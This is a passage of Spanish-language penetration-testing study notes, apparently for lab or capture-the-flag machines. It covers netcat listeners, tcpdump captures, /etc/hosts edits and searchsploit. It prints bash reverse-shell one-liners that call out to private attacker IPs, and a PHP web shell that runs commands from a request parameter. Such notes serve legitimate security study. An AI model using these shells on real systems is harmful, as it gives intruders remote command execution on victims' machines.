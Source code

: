 Para ello primero pondremos a escuchar con netcat desde nuestro equipo host:
![[Mis apuntes/ANEXOS/Pasted image 20221217112335.png]]
Después, desde la máquina víctima necesitaremos que ejecute el siguiente código para enviarnos una bash:
```bash
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Aunque si lo hacemos desde un navegador, debemos escribirlo de esta manera, porque al poner bash -c seleccionamos el intérprete:
```bash
bash -c 'bash -i >& /dev/tcp/10.8.100.91/443 0>&1'
````
## Código PHP malicioso para ganar Reverse Shell
Esto se utiliza para subir este fichero php a una web que funcione con este lenguaje para después acceder a dicho documento desde algún directorio de uploads de la web; y así ganar ejecución remota de comandos:
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Luego podemos acceder a este fichero malicioso desde la máquina víctima poniendo lo siguiente en la URL seguido del comando a ejecutar:
![[Mis apuntes/ANEXOS/Pasted image 20230218112346.png]]
## TCPDUMP PARA INTERCEPTAR PAQUETES DENTRO DE LA CONEXIÓN

![[Mis apuntes/ANEXOS/Pasted image 20221217112455.png]]
También podemos guardar con tcpdump las conexiones por una determinada interfaz y analizarlas con wireshark. Por ejemplo hacemos un escaneo:
![[Mis apuntes/ANEXOS/Pasted image 20230412194342.png]]
Si guardamos esto en un fichero .cap para analizarlo con wireshark, veremos que en este escaneo además de nuestra IP también se habrá enviado otros paquetes desde la IP 192.168.0.232 que hemos proporcionado como señuelo:
![[Mis apuntes/ANEXOS/Pasted image 20230412194600.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230412194623.png]]
## MODIFICAR EL FICHERO /ETC/HOSTS PARA AÑADIR UN DOMINIO QUE NO NOS FUNCIONA
Podemos tener una URL que no nos carga en el navegador:

![[Mis apuntes/ANEXOS/Pasted image 20221217112601.png]]

Entonces ahora tenemos que indicar que la IP apunte a este subdominio, tal y como hicimos antes:

![[Mis apuntes/ANEXOS/Pasted image 20221217112608.png]]
Entonces ahora si pegamos la dirección que se nos indica en la web, accederemos a un menú de registro:
![[Mis apuntes/ANEXOS/Pasted image 20221217112615.png]]
## **HERRAMIENTA SEARCHSPLOIT**
Podemos buscar exploit de alguna vulnerabilidad, por ejemplo de una versión ftp:
![[Mis apuntes/ANEXOS/Pasted image 20221217112646.png]]
Vamos a descargarnos el primer exploit desde esta herramienta utilizando la opción -m:
![[Mis apuntes/ANEXOS/Pasted image 20221217112653.png]]
